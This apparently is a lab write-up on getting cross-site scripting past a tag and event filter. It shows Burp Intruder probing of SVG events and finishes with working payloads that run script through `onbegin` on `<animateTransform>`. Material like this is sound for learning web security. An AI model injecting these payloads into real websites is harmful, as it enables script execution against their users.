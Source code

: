I started by using Burp Intruder in order to find the accepted events.  
I took the events form here: https://developer.mozilla.org/en-US/docs/Web/SVG/Attribute/Events

And it looks like the only accepted event is `onbegin`

I then looked here: https://developer.mozilla.org/en-US/docs/Web/SVG/Attribute/begin  
and saw that the only accepted tags are `<animateTransform>` and `<discard>`,  
so I think I need to pair them with a `<circle>` or something like that.

Then I went here: https://developer.mozilla.org/en-US/docs/Web/SVG/Element/animateTransform

And copied the transforming polygon code, only to see that `<polygon>` is blocked.  
So I replaced it with a `<circle>`, and solved the lab:

```html
<svg width="120" height="120" viewBox="0 0 120 120"
     xmlns="http://www.w3.org/2000/svg">

    <circle cx="50" cy="50" r="40" stroke="black" stroke-width="3" fill="red" />
        <animateTransform 
        onbegin="alert();"
        attributeName="transform"
                          attributeType="XML"
                          type="rotate"
                          from="0 60 70"
                          to="360 60 70"
                          dur="10s"
                          repeatCount="indefinite"/>
    </polygon>
</svg>
```

I then removed the irrelevant stuff to create a shorter, focused version:

```html
<svg><animateTransform onbegin="alert();">
```